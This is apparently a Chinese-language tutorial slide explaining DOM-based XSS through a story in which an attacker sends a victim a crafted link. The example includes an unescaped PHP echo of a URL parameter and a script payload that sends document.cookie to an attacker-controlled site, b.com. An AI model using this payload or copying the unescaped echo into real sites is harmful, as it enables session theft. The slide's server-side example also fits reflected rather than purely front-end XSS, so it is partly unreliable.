

DOM型XSS攻击
DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。整个过程都是在前端完成的，没有后端的参与（纯前端的操作！）
攻击示例：
（1）当小明登录a.com后，发现它的页面某些内容是根据url中的一个叫content参数直接显示的。
<body><?php echo $content; ?></body>
（2）小明知道了Tom也注册了该网站，并且知道了他的邮箱，小明做一个超链接发给他，超链接地址为：http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>
（3）当Tom点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是小明搭建的网站，于是就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！